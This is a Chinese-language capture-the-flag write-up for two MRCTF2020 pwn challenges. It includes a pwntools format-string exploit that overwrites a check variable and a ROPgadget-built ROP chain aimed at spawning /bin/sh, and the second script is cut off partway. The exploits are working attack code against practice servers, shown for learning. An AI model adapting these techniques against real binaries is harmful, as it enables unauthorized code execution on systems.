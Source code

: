 # mrctf2020_easy_equation

一道存在截断的格式化字符串漏洞题

首先看main函数，明显的格式化字符串漏洞，要修改judge的值为2

![image-20210410021229743](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739532.png)

调试发现实际上本应该成为第8个参数'12345678'的首位是在第7个参数（也就是偏移为7）的末位，如下图

![image-20210410022720826](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739333.png)

补一个字符可以让我们想要输出的东西正好落在偏移为8处

![image-20210410024533057](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739895.png)

立马写出payload = "AA%8$n" + p64(0x060105C)**大错特错**

原因是偏移不对，格式化字符串`"AA%8$n"`中，第一个字符A被我们用作补位的那个字符了，`"A%8$n"`又不足8位，只有5位，所以后面还需要补3个字符，才能使我们的地址正好落在偏移为9的地方

最终exp如下：

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 29890)
payload="aa%9$nAAA"+p64(0x060105C)
p.sendline(payload)
p.interactive()
```

# mrctf2020_nothing_but_everything

非常简单的ROP，但这是我第一次用到ROPgadget自动构造ROP链的功能

![image-20210410221907586](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739336.png)

如下图

```
ROPgadget --binary rop --ropchain
```

![image-20210410221835050](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739848.png)

一键自动构造ROP链，不过栈上的填充还是要自己填上的

```
from pwn import *
from struct import pack
import time
context(arch='amd64', os='linux', log_level='debug')
sh = remote('node3.buuoj.cn', 28541)
sh.sendline("1")
p = b'a' * 120
p += pack('<Q', 0x00000000004100d3)  # pop rsi ; ret
p += pack('<Q', 0x00000000006b90e0)  # @ .data
p += pack('<Q', 0x00000000004494ac)  # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000047f261)  # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004100d3)  # pop rsi ; ret
p += pack('<Q', 0x00000000006b90e8)  # @ .data + 8
p += pack('<Q', 0x0000000000444840)  # xor rax, rax ; ret
p += pack('<Q', 0x000000000047f261)  # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000400686)  # pop rdi ; ret
p += pack('<Q', 0x00000000006b90e0)  # @ .data
p += pack('<Q', 0x00000000004100d3)  # pop rsi ; ret
```